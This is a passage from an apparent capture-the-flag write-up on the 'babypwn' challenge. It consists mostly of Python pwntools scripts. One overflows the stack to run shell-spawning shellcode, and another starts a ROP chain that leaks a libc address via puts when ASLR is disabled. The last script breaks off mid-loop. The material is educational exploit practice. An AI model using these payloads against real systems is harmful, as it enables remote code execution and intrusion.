 ```python  
#!/usr/bin/env python3

from pwn import *

context.arch = 'x86_64'  
context.log_level = 'INFO'  
context.log_file = 'remote.log'  
p = remote('chal.cybersecurityrumble.de', 1990)  
stack = 0x00007fffffffe7a0

payload  = 2 * b'A'  
payload += (0x78 - len(payload)) * b'\0'  
payload += p64(stack)  
payload += asm(shellcraft.sh())

p.sendlineafter('return.\n',payload)  
p.interactive()  
```

The `stack` value (`0x00007fffffffe7a0`) is based on the stack frame above
(see Errata), and is just below the return address `0x00007fffffffe798`.

### ROP (post ASLR world)

Although compiled with PIE enabled, the challenge server launches with ASLR
disabled, so we get the base address for free and can use ROP:

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./babypwn')  
context.log_level = 'INFO'  
context.log_file = 'remote.log'  
libc_index = 0  
offset = 0x78

if binary.pie:  
   # need leak or assume no ASLR  
   binary.address = 0x0000555555554000  
```

All we need is the stack frame offset (see analysis section above), and the
base process address.  Since ASLR is disabled we know that it'll be
`0x0000555555554000`.

No brittle stack address info required.

```python  
while True:  
   p = remote('chal.cybersecurityrumble.de', 1990)

   rop = ROP([binary])  
   pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

   payload  = 2 * b'A'  
   payload += (offset - len(payload)) * b'\0'  
   payload += p64(pop_rdi)  
   payload += p64(binary.got.puts)  
   payload += p64(binary.plt.puts)  
   payload += p64(binary.sym.main)

   p.sendlineafter('return.\n',payload)  
   _ = p.recv(6)  
   puts = u64(_ + b'\0\0')  
```